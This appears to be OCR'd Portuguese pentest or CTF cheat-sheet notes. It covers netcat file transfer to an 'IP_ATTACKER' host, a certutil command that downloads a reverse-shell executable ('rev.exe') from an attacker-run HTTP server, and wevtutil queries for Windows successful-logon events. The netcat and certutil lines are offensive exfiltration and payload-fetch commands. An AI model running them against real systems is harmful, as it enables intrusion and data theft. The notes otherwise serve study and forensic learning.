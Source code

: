 

# nc/netcat
transferencia de arquivos via nc:
```
nc -lvp PORT > FILE  # receiver

nc IP_ATTACKER PORT_OPPENED < FILE # sender
```
# cmd
transferencia do arquivo rev
```
certutil.exe -urlcache -split -f "http://<meu_ip>:PORT/rev.exe"
```
executar antes
```
python3 -m http.server <PORT>
```


## login
loggin bem sucedido
```
wevtutil qe Security "/q:*[System[EventID=4624]]" /f:text /c:10
```


login bem sucedidos filtrando pelo nome de usuário
```
wevtutil qe Security "/q:*[System[EventID=4624] and EventData[Data[@Name='TargetUserName']='john']]" /f:text /c:10
```
- `/q:*[System[EventID=4624]]`: Filtra eventos com ID 4624.
- `EventData[Data[@Name='TargetUserName']='john']`: Dentro dos dados do evento, filtra onde o nome do usuário é "john".
obs: caso a saida do comando acima seja nula, o usuário não fez login bem sucedido


loggin bem sucedido com usuário john em ordem anti-cronologica (mais recente pro mais antigo)
```
wevtutil qe Security "/q:*[System[EventID=4624] and EventData[Data[@Name='TargetUserName']='john']]" /f:text /c:10 /rd:true
```
- **`qe Security`**: Consulta o log de eventos de segurança.
- **`"/q:*[System[EventID=4624]]"`**: Filtra os eventos de logon bem-sucedido (ID 4624).
- **`/f:text`**: Formato de saída em texto.
- **`/rd:true`**: Inverte a ordem dos eventos, mostrando os mais recentes primeiro.

**Formato das datas:**
```
YYYY-MM-DDTHH:MM:SS.sss 
2019-03-02T17:48:32.199 

ano = 2019 
mes = 03
dia = 02
hora = 17
minuto = 48
segundo = 32
milissegundo = 199
```
